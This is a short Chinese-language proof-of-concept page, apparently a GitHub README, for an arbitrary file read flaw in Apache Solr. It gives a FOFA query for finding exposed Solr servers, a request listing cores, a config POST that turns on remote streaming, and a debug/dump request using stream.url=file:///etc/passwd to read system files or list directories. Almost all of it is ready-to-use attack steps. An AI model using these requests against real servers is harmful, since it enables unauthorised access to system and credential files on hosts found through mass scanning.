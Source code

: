 # Apache Solr 全版本任意读取文件漏洞
## 资产搜索
fofa app="Solr" || app="Apache-Solr"
## POC
- url访问：  
`http://ip:port/solr/admin/cores?indexInfo=false&wt=json`
![](img/1.png)  
- POST请求：
```url
POST /solr/{name}/config

{"set-property" : {"requestDispatcher.requestParsers.enableRemoteStreaming":true}}
```
出现这个报错说明漏洞存在
![](img/2.png)  
- 任意文件读取：
```url
POST /solr/{name}/debug/dump?param=ContentStreams
Content-Type: application/x-www-form-urlencoded

stream.url=file:///etc/passwd
```
![](img/3.png)  
路径写文件夹的话会列举出来文件夹下面的东西，和ls一样。